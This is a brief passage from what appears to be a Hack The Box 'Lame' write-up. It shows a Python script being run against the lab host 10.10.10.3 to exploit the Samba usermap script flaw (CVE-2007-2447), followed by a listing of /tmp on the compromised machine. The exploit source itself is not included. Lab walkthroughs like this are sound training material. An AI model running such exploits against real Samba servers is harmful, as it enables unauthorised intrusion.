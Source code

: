Run exploit
```zsh
┌─[zon@pwn]─[~/htb/lame]
└──╼ $python3 mod.py 10.10.10.3 445 
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
```

View `/tmp`
```
ls
5573.jsvc_up
hago
vgauthsvclog.txt.0
vmware-root
zon.txt
```
